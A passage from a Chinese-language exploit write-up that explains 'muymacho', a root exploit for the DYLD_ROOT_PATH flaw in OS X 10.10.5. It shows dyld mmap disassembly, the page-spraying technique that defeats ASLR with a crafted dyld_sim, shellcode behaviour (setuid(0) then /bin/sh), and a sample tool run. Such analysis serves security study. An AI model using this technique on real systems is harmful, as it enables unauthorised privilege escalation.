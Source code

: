     00007FFF5FC26DBC ___mmap   proc near               ; CODE XREF: _mmap+31p
    00007FFF5FC26DBC           mov     eax, 20000C5h
    00007FFF5FC26DC1           mov     r10, rcx
    00007FFF5FC26DC4           syscall
    00007FFF5FC26DC6           jnb     short locret_7FFF5FC26DD0
    

当mmap系统调用返回时，将会从页内的0xdc6处开始执行。因为rax为返回值，它会存储最新加载内存的基地址，换句话说，rax指向我们payload的开始处。

所有4096个payload页的0xdc6处，都是一个jmp rax指令。payload开始处的第一页在0x00偏移处包含一段shellcode。

下图显示了基地址页（payload的地址最低的第一页）和标准页（4096也都有的内容）。

![](http://static.wooyun.org//drops/20151111/2015111111580825803106.png)

不必考虑哪一页会覆盖掉dyld_target，jmp rax指令都会将执行跳转到shellcode。

shellcode将会执行一条`setuid(0)`系统调用，然后执行`execve(/bin/sh'')`系统调用。启动一个sh。

# 0x09 完成利用

* * *

  1. 我们的目标是覆盖dyld_target，该页是dyld中包含mmap系统调用的那一页。
  2. 我们使用32个segment覆盖0x20000000 bytes来绕过ASLR。 
    * 我们使用由高至低的策略
    * 第一个segment的vmaddr是0x7ffe6ec1d000
    * 后面的segment拥有更小（0x1000000）vmaddr
  3. 所有segment指向payload同样的4096个页 
    * 所有页在偏移0xdc6处都是jmp rax指令
    * 基础页里面包含我们的shellcode

muymacho是由python编写，在github发布。在MachoFile和LC_SEGMENT_64类中进行了最小限度的Mach-O实现。创建了一个dyld_sim文件，包含32个segment。所有都指向payload。

muymacho使用时，输入一个基目录路径，会自动生成需要的目录结构和dyld_sim文件。实际的利用需要设置DYLD_ROOT_PATH到一个目录，并执行一个suid的二进制文件。下面是一个运行的例子。

    
    
    #!bash
    user@yosemite:~/tmp$ python muymacho.py ~/tmp
    muymacho.py - exploit for DYLD_ROOT_PATH vuln in OS X 10.10.5
    Luis Miras @_luism    
    
    [+] using base_directory: /Users/user/tmp
    [+] creating dir: /Users/user/tmp/usr/lib
    [+] creating macho file: /Users/user/tmp/usr/lib/dyld_sim    LC_SEGMENT_64: segment 0x00    vm_addr: 0x7ffe6ec1d000    LC_SEGMENT_64: segment 0x01    vm_addr: 0x7ffe6dc1d000    LC_SEGMENT_64: segment 0x02    vm_addr: 0x7ffe6cc1d000    LC_SEGMENT_64: segment 0x03    vm_addr: 0x7ffe6bc1d000    LC_SEGMENT_64: segment 0x04    vm_addr: 0x7ffe6ac1d000    LC_SEGMENT_64: segment 0x05    vm_addr: 0x7ffe69c1d000    LC_SEGMENT_64: segment 0x06    vm_addr: 0x7ffe68c1d000    LC_SEGMENT_64: segment 0x07    vm_addr: 0x7ffe67c1d000    LC_SEGMENT_64: segment 0x08    vm_addr: 0x7ffe66c1d000    LC_SEGMENT_64: segment 0x09    vm_addr: 0x7ffe65c1d000    LC_SEGMENT_64: segment 0x0a    vm_addr: 0x7ffe64c1d000    LC_SEGMENT_64: segment 0x0b    vm_addr: 0x7ffe63c1d000    LC_SEGMENT_64: segment 0x0c    vm_addr: 0x7ffe62c1d000    LC_SEGMENT_64: segment 0x0d    vm_addr: 0x7ffe61c1d000    LC_SEGMENT_64: segment 0x0e    vm_addr: 0x7ffe60c1d000    LC_SEGMENT_64: segment 0x0f    vm_addr: 0x7ffe5fc1d000    LC_SEGMENT_64: segment 0x10    vm_addr: 0x7ffe5ec1d000    LC_SEGMENT_64: segment 0x11    vm_addr: 0x7ffe5dc1d000    LC_SEGMENT_64: segment 0x12    vm_addr: 0x7ffe5cc1d000    LC_SEGMENT_64: segment 0x13    vm_addr: 0x7ffe5bc1d000    LC_SEGMENT_64: segment 0x14    vm_addr: 0x7ffe5ac1d000    LC_SEGMENT_64: segment 0x15    vm_addr: 0x7ffe59c1d000    LC_SEGMENT_64: segment 0x16    vm_addr: 0x7ffe58c1d000    LC_SEGMENT_64: segment 0x17    vm_addr: 0x7ffe57c1d000    LC_SEGMENT_64: segment 0x18    vm_addr: 0x7ffe56c1d000    LC_SEGMENT_64: segment 0x19    vm_addr: 0x7ffe55c1d000    LC_SEGMENT_64: segment 0x1a    vm_addr: 0x7ffe54c1d000    LC_SEGMENT_64: segment 0x1b    vm_addr: 0x7ffe53c1d000    LC_SEGMENT_64: segment 0x1c    vm_addr: 0x7ffe52c1d000    LC_SEGMENT_64: segment 0x1d    vm_addr: 0x7ffe51c1d000    LC_SEGMENT_64: segment 0x1e    vm_addr: 0x7ffe50c1d000    LC_SEGMENT_64: segment 0x1f    vm_addr: 0x7ffe4fc1d000
    [+] building payload
    [+] dyld_sim successfully created